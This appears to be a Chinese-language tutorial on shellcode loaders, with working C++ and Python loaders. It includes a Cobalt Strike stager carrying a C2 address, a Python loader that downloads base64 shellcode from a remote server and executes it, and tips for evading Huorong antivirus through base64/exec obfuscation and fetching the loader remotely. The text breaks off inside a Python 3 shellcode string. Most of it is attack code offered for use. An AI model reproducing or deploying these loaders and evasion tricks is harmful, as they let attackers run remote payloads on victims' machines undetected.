


## shellcode loader

shellcode是一段用于利用软件漏洞而执行的代码

shellcode loader是用来运行此代码的加载器

shellcode比作子弹的话，loader就是把枪，两者缺一不可。

## c++ shellcode loader

	#include <windows.h>
	#include <stdlib.h>
	
	unsigned char shellcode[] =
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
	"\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
	"\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
	"\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
	"\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
	"\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
	"\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
	"\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";
	
	void LoadDll() {
	    typedef void(*CODE)();  //定义一个函数指针
	    LPVOID codes = NULL;//初始化一下codes
	    codes = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	    memcpy(codes, shellcode, sizeof(shellcode));//将shellcode内容复制到codes这块内存里面，第三参数是大小
	    CODE c = (CODE)codes;
	    c();//直接调用即可
	}
	
	// c++ 一定要有main函数
	int main(int argc, char* argv[])
	{
	    LoadDll();
	    return 0;
	}

以上的shellcode作用是弹出一个消息框，最初用visual studio v2019 debug模式编译，弹框后报错，后来用release模式编译，弹框后正常。

用g++直接编译c++代码也是可以的，注意要有main()函数。

[Shellcode注入进程内存及调用](https://mp.weixin.qq.com/s?__biz=Mzg2NjU0MjA0Ng==&mid=2247483773&idx=1&sn=f637a0f1dbb358d8e4c01d2f1596a96f&chksm=ce4809ccf93f80da5922982b91b229219a8a850a45250cb57a5243c64c8e0cded79e4a61ebb7&scene=132#wechat_redirect)

## python shellcode loader (py2.7)

loader大致原理就是申请一块内存，将代码字节存入该内存，然后开始运行该内存储存的程序，并让该程序一直运行下去。

	# -*- coding:utf-8 -*-
	__author__ = 'leezp'
	__date__ = 20210219
	'''
	loader大致原理就是申请一块内存，将代码字节存入该内存，然后开始运行该内存储存的程序，并让该程序一直运行下去。
	'''
	
	import requests
	import base64
	
	# 1.导入ctypes库
	# python的ctypes模块是内建，用来调用系统动态链接库函数的模块
	# 使用ctypes库可以很方便地调用C语言的动态链接库，并可以向其传递参数。
	import ctypes
	
	# 2.读取shellcode
	# msfvenom -a x86 --platform windows -p windows/messagebox TEXT="test" -f python
	# 将shellcode生成后，使用base64编码，放在了服务器test.txt文件上
	scode = requests.get("http://10.88.104.26:8000/test.txt")
	# 由于后面操作是将代码写入内存，所以需要将代码解码并转为字节类型
	shellcode = bytearray(base64.b64decode(scode.text).decode('hex'))
	# 3.设置返回类型
	# 用VirtualAlloc函数来申请内存，返回类型必须和系统位数相同
	# 想在64位系统上运行，必须使用restype函数设置VirtualAlloc返回类型为ctypes.c_unit64，否则默认的是32位
	ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
	# 4.申请内存scode
	# 调用VirtualAlloc函数，来申请一块动态内存区域。
	'''
	VirtualAlloc函数原型和参数如下：
	LPVOID VirtualAlloc{
	LPVOID lpAddress, #要分配的内存区域的地址
	DWORD dwSize,      #分配的大小
	DWORD flAllocationType, #分配的类型
	DWORD flProtect     #该内存的初始保护属性
	};
	
	ctypes.c_int(0)
	是NULL，系统将会决定分配内存区域的位置，并且按64KB向上取整
	ctypes.c_int(len(shellcode))
	以字节为单位分配或者保留多大区域
	ctypes.c_int(0x3000)
	是 MEM_COMMIT(0x1000) 和 MEM_RESERVE(0x2000)类型的合并
	ctypes.c_int(0x40)
	是权限为PAGE_EXECUTE_READWRITE 该区域可以执行代码，应用程序可以读写该区域。
	
	具体参考百度百科：https://baike.baidu.com/item/VirtualAlloc/1606859?fr=aladdin
	'''
	# 申请一块内存可读可写可执行
	ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
	                                          ctypes.c_int(len(shellcode)),
	                                          ctypes.c_int(0x3000),
	                                          ctypes.c_int(0x40))
	# 5.将shellcode载入内存
	# 从指定内存地址将内容复制到我们申请的内存中去，shellcode字节多大就复制多大
	buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
	'''
	RtlMoveMemory函数原型和参数如下:
	RtlMoveMemory(Destination,Source,Length);
	Destination ：指向移动目的地址的指针。
	Source ：指向要复制的内存地址的指针。
	Length ：指定要复制的字节数。
	'''
	# 调用RtlMoveMemory函数，此函数从指定内存中复制内容至另一内存里。
	ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
	                                     buf,
	                                     ctypes.c_int(len(shellcode)))
	# 6.创建进程
	# 调用CreateThread将在主线程的基础上创建一个新线程
	'''
	CreateThread函数原型和参数如下：
	HANDLE CreateThread(
	LPSECURITY_ATTRIBUTES lpThreadAttributes,#线程安全属性
	SIZE_T dwStackSize,       #置初始栈的大小，以字节为单位
	LPTHREAD_START_ROUTINE lpStartAddress,  #指向线程函数的指针
	LPVOID lpParameter,          #向线程函数传递的参数
	DWORD dwCreationFlags,       #线程创建属性
	LPDWORD lpThreadId           #保存新线程的id
	)
	
	lpThreadAttributes
	为NULL使用默认安全性
	dwStackSize
	为0，默认将使用与调用该函数的线程相同的栈空间大小   
	lpStartAddress 
	为ctypes.c_uint64(ptr)，定位到申请的内存所在的位置 
	lpParameter  
	不需传递参数时为NULL
	dwCreationFlags
	属性为0，表示创建后立即激活
	lpThreadId
	为ctypes.pointer(ctypes.c_int(0))不想返回线程ID,设置值为NULL
	
	具体参考百度百科：https://baike.baidu.com/item/CreateThread/8222652?fr=aladdin
	'''
	# 创建一个线程从shellcode放置位置开始执行
	handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
	                                             ctypes.c_int(0),
	                                             ctypes.c_uint64(ptr),
	                                             ctypes.c_int(0),
	                                             ctypes.c_int(0),
	                                             ctypes.pointer(ctypes.c_int(0)))
	# 7.等待线程结束
	# 调用WaitForSingleObject函数用来检测线程的状态
	'''
	WaitForSingleObject函数原型和参数如下：
	DWORD WINAPI WaitForSingleObject(
	__in HANDLE hHandle,     #对象句柄。可以指定一系列的对象
	__in DWORD dwMilliseconds  #定时时间间隔
	);
	'''
	# 等待创建的线程运行结束
	# 这里两个参数，一个是创建的线程，一个是等待时间
	# 当线程退出时会给出一个信号，函数收到后会结束程序。当时间设置为0或超过等待时间，程序也会结束，所以线程也会跟着结束。
	# 正常的话我们创建的线程是需要一直运行的，所以将时间设为负数，等待时间将成为无限等待，程序就不会结束。
	# 具体参考百度百科：https://baike.baidu.com/item/WaitForSingleObject/3534838?fr=aladdin
	ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
	

## 生成一个shellcode 并利用

生成shellcode的方法有很多种，这里用cs生成。

我生成一个python的64位shellcode：

写一个简单的python编码解码程序：

**这里用的python2.7，python3环境由于编码问题暂时没搞明白。**

[Python字节数组【bytes/bytearray】](https://www.cnblogs.com/fieldtianye/p/8276552.html)

	# py2.7
	
	s='\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x70\x35\x47\x71\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x62\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x30\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x31\x2e\x31\x33\x33\x2e\x31\x36\x39\x2e\x34\x00\x00\x00\x00\x00'
	print ("转化为hex:")
	print(s.encode('hex'))
	b=str(base64.b64encode(s.encode('hex')))
	print ("将结果base64编码：")
	print (b)
	print ("解码回字符串：")
	print base64.b64decode(b).decode('hex')
	print type(base64.b64decode(b).decode('hex'))
	print ('转化为shellcode loader程序可以利用的 bytearray')
	shellcode = bytearray(base64.b64decode(b).decode('hex'))
	print (shellcode)
	print type(shellcode)

输出结果：

	转化为hex:
	fc4883e4f0e8c8000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b0275728b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94fffffff5d6a0049be77696e696e65740041564989e64c89f141ba4c772607ffd54831c94831d24d31c04d31c94150415041ba3a5679a7ffd5eb735a4889c141b8500000004d31c9415141516a03415141ba57899fc6ffd5eb595b4889c14831d24989d84d31c9526800024084525241baeb552e3bffd54889c64883c3506a0a5f4889f14889da49c7c0ffffffff4d31c9525241ba2d06187bffd585c00f859d01000048ffcf0f848c010000ebd3e9e4010000e8a2ffffff2f7035477100354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f21502500557365722d4167656e743a204d6f7a696c6c612f342e302028636f6d70617469626c653b204d53494520372e30623b2057696e646f7773204e5420362e30290d0a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d5354414e444152442d414e544956495255532d544553542d46494c452124482b482a00354f2150254041505b345c505a58353428505e2937434329377d2445494341522d0041bef0b5a256ffd54831c9ba0000400041b80010000041b94000000041ba58a453e5ffd5489353534889e74889f14889da41b8002000004989f941ba129689e2ffd54883c42085c074b6668b074801c385c075d758585848050000000050c3e89ffdffff3130312e3133332e3136392e340000000000
	将结果base64编码：
	ZmM0ODgzZTRmMGU4YzgwMDAwMDA0MTUxNDE1MDUyNTE1NjQ4MzFkMjY1NDg4YjUyNjA0ODhiNTIxODQ4OGI1MjIwNDg4YjcyNTA0ODBmYjc0YTRhNGQzMWM5NDgzMWMwYWMzYzYxN2MwMjJjMjA0MWMxYzkwZDQxMDFjMWUyZWQ1MjQxNTE0ODhiNTIyMDhiNDIzYzQ4MDFkMDY2ODE3ODE4MGIwMjc1NzI4YjgwODgwMDAwMDA0ODg1YzA3NDY3NDgwMWQwNTA4YjQ4MTg0NDhiNDAyMDQ5MDFkMGUzNTY0OGZmYzk0MThiMzQ4ODQ4MDFkNjRkMzFjOTQ4MzFjMGFjNDFjMWM5MGQ0MTAxYzEzOGUwNzVmMTRjMDM0YzI0MDg0NTM5ZDE3NWQ4NTg0NDhiNDAyNDQ5MDFkMDY2NDE4YjBjNDg0NDhiNDAxYzQ5MDFkMDQxOGIwNDg4NDgwMWQwNDE1ODQxNTg1ZTU5NWE0MTU4NDE1OTQxNWE0ODgzZWMyMDQxNTJmZmUwNTg0MTU5NWE0ODhiMTJlOTRmZmZmZmZmNWQ2YTAwNDliZTc3Njk2ZTY5NmU2NTc0MDA0MTU2NDk4OWU2NGM4OWYxNDFiYTRjNzcyNjA3ZmZkNTQ4MzFjOTQ4MzFkMjRkMzFjMDRkMzFjOTQxNTA0MTUwNDFiYTNhNTY3OWE3ZmZkNWViNzM1YTQ4ODljMTQxYjg1MDAwMDAwMDRkMzFjOTQxNTE0MTUxNmEwMzQxNTE0MWJhNTc4OTlmYzZmZmQ1ZWI1OTViNDg4OWMxNDgzMWQyNDk4OWQ4NGQzMWM5NTI2ODAwMDI0MDg0NTI1MjQxYmFlYjU1MmUzYmZmZDU0ODg5YzY0ODgzYzM1MDZhMGE1ZjQ4ODlmMTQ4ODlkYTQ5YzdjMGZmZmZmZmZmNGQzMWM5NTI1MjQxYmEyZDA2MTg3YmZmZDU4NWMwMGY4NTlkMDEwMDAwNDhmZmNmMGY4NDhjMDEwMDAwZWJkM2U5ZTQwMTAwMDBlOGEyZmZmZmZmMmY3MDM1NDc3MTAwMzU0ZjIxNTAyNTQwNDE1MDViMzQ1YzUwNWE1ODM1MzQyODUwNWUyOTM3NDM0MzI5Mzc3ZDI0NDU0OTQzNDE1MjJkNTM1NDQxNGU0NDQxNTI0NDJkNDE0ZTU0NDk1NjQ5NTI1NTUzMmQ1NDQ1NTM1NDJkNDY0OTRjNDUyMTI0NDgyYjQ4MmEwMDM1NGYyMTUwMjUwMDU1NzM2NTcyMmQ0MTY3NjU2ZTc0M2EyMDRkNmY3YTY5NmM2YzYxMmYzNDJlMzAyMDI4NjM2ZjZkNzA2MTc0Njk2MjZjNjUzYjIwNGQ1MzQ5NDUyMDM3MmUzMDYyM2IyMDU3Njk2ZTY0NmY3NzczMjA0ZTU0MjAzNjJlMzAyOTBkMGEwMDM1NGYyMTUwMjU0MDQxNTA1YjM0NWM1MDVhNTgzNTM0Mjg1MDVlMjkzNzQzNDMyOTM3N2QyNDQ1NDk0MzQxNTIyZDUzNTQ0MTRlNDQ0MTUyNDQyZDQxNGU1NDQ5NTY0OTUyNTU1MzJkNTQ0NTUzNTQyZDQ2NDk0YzQ1MjEyNDQ4MmI0ODJhMDAzNTRmMjE1MDI1NDA0MTUwNWIzNDVjNTA1YTU4MzUzNDI4NTA1ZTI5Mzc0MzQzMjkzNzdkMjQ0NTQ5NDM0MTUyMmQ1MzU0NDE0ZTQ0NDE1MjQ0MmQ0MTRlNTQ0OTU2NDk1MjU1NTMyZDU0NDU1MzU0MmQ0NjQ5NGM0NTIxMjQ0ODJiNDgyYTAwMzU0ZjIxNTAyNTQwNDE1MDViMzQ1YzUwNWE1ODM1MzQyODUwNWUyOTM3NDM0MzI5Mzc3ZDI0NDU0OTQzNDE1MjJkNTM1NDQxNGU0NDQxNTI0NDJkNDE0ZTU0NDk1NjQ5NTI1NTUzMmQ1NDQ1NTM1NDJkNDY0OTRjNDUyMTI0NDgyYjQ4MmEwMDM1NGYyMTUwMjU0MDQxNTA1YjM0NWM1MDVhNTgzNTM0Mjg1MDVlMjkzNzQzNDMyOTM3N2QyNDQ1NDk0MzQxNTIyZDAwNDFiZWYwYjVhMjU2ZmZkNTQ4MzFjOWJhMDAwMDQwMDA0MWI4MDAxMDAwMDA0MWI5NDAwMDAwMDA0MWJhNThhNDUzZTVmZmQ1NDg5MzUzNTM0ODg5ZTc0ODg5ZjE0ODg5ZGE0MWI4MDAyMDAwMDA0OTg5Zjk0MWJhMTI5Njg5ZTJmZmQ1NDg4M2M0MjA4NWMwNzRiNjY2OGIwNzQ4MDFjMzg1YzA3NWQ3NTg1ODU4NDgwNTAwMDAwMDAwNTBjM2U4OWZmZGZmZmYzMTMwMzEyZTMxMzMzMzJlMzEzNjM5MmUzNDAwMDAwMDAwMDA=
	解码回字符串：
	A�8�u�LLE9�u�XD�@$I�fA�HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��O���]j I�wininet AVI��L��A�Lw&��H1�H1�M1�M1�APAPA�:Vy����sZH��A�P   M1�AQAQjAQA�W������Y[H��H1�I��M1�Rh @�RRA��U.;��H��H��Pj
	_H��H��I������M1�RRA�-{�Յ���  H����  ����  ����/p5Gq 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P% User-Agent: Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 6.0)
	 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR- A��V��H1ɺ  @ A�   A�@   A�X�S���H�SSH��H��H��A�    I��A������H�� ��t�f�HÅ�u�XXXH    P�����101.133.169.4     
	<type 'str'>
	转化为shellcode loader程序可以利用的 bytearray
	A�8�u�LLE9�u�XD�@$I�fA�HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��O���]j I�wininet AVI��L��A�Lw&��H1�H1�M1�M1�APAPA�:Vy����sZH��A�P   M1�AQAQjAQA�W������Y[H��H1�I��M1�Rh @�RRA��U.;��H��H��Pj
	_H��H��I������M1�RRA�-{�Յ���  H����  ����  ����/p5Gq 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P% User-Agent: Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 6.0)
	 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* 5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR- A��V��H1ɺ  @ A�   A�@   A�X�S���H�SSH��H��H��A�    I��A������H�� ��t�f�HÅ�u�XXXH    P�����101.133.169.4     
	<type 'bytearray'>

执行加载上面的shellcode loader程序即可让cs上线。

服务器上的 test.txt 即为base64编码的shellcode。

## python shellcode loader 免杀 (py2)

	ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf,ctypes.c_int(len(shellcode)))

这段代码被火绒查杀。

只要有RltMoveMemory这段字符就会查杀，所以确定RltMoveMemory这段字符就是特征码。

有两种绕过思路，一是换一个可以达到相同效果的函数，但没找到，RltCopyMemory也会被查杀

另一种思路就是该字符明面上不出现在语句当中。直接将整个语句加密，用eval或exec函数运行。

	string = '''Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX2ludChwdHIpLGJ1ZixjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpKQ=='''
	eval(base64.b64decode(string))

没有特征码了，所以就绕过火绒了。**亲测可用。**

	pyinstaller --noconsole --onefile test.py

既然shellcode能放在服务器上，那我们的loader应该也可以。

这里eval函数不够用了，只能运行一条语句。

换成exec函数，可以将Python代码用分号；连接起来运行。

	a='''ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64;ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40));buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode);ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf,ctypes.c_int(len(shellcode)));handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)));ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))'''
	exec(a)

进行base64编码，放在我的服务器loader.txt文件中

	scode = requests.get("http://10.88.104.26:8000/test.txt")
	shellcode = bytearray(base64.b64decode(scode.text).decode('hex'))
	
	loader = requests.get("http://10.88.104.26:8000/loader.txt")
	exec (base64.b64decode(loader.text))

只要你服务器不被标记恶意主机，还是不容易被报毒的，有些设备可能把exec看成webshell等。

## java shellcode loader

https://github.com/yzddmr6/Java-Shellcode-Loader

测试只支持32位 shellcode

改写 ShellcodeLoader.java 填入shellcode即可。

## 参考资料

[【超详细 | Python】CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=132#wechat_redirect)

[【超详细 | Python】CS免杀-分离+混淆免杀思路](https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&mpshare=1&scene=1&srcid=0220SQiJ16aY5AtrItpPe3JA&sharer_sharetime=1613789439293&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd)

## 后记

开始折腾py3的shellcode编码解码。

	# py3
	
	s = b'\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x70\x35\x47\x71\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\